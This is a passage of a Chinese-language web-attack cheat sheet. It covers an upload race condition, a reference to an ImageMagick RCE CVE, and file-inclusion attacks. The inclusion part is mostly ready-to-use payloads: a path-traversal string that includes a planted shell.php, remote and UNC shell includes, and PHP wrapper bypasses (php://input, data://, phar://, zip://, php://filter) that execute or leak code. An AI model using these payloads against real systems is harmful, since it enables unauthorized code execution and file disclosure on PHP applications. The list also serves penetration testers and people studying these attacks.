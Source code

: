 ### 条件竞争

在一些上传场景中，上传的文件上传成功后会被立马删除，导致无法访问上传的文件。所以从上传成功到被删除的这段时间大概（几百ms）存在一个空档，我们利用这段空档可以访问到上传的文件。但是手工操作肯定是来不及，我们写脚本操作也来不及。所以可以通过不断的上传文件，并不断的访问到达目的。

### 其他情况

（1）rce

```
imagick rce:CVE-2016–3714
```

（2）file_put_contents

```
file_put_contents($filename,$content);
```

## 文件包含

### 路径穿越

```
upload/../../../../../tmp/shell.php
```

### 伪协议绕过

```
ftp://shell.php
file:///tmp/shell.php
http://xxxx/shell.php
\\smbserver\shell.php        //unc路径
phar://xxxx/x.zip/shell.php   //需将shell.php打包为x.zip上传
zip://xxxx/x.zip#shell.php    //需将shell.php打包为x.zip上传
php://filter/read=convert.base64-encode/resource=shell.php
compress.bzip2://shell.php
compress.zlib://shell.jpg
php://input    [POST DATA] <?php phpinfo()?>
data://text/plain,<?php phpinfo()?>                 //也可以data:text/plain,<?php phpinfo()?>
data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4= 
php://filter/read=convert.base64-encode/resource=phar://phar.phar
php://filter/convert.base64-decode|convert.base64-decode/resource=shell.php
php://filter/%72ead=convert.base64-encode/resource=shell.%70hp
```

### 包含Session

参考`php_myadmin4.8.1`文件包含漏洞`CVE-2018-12613`

https://github.com/vulhub/vulhub/tree/master/phpmyadmin/CVE-2018-12613

### 包含日志
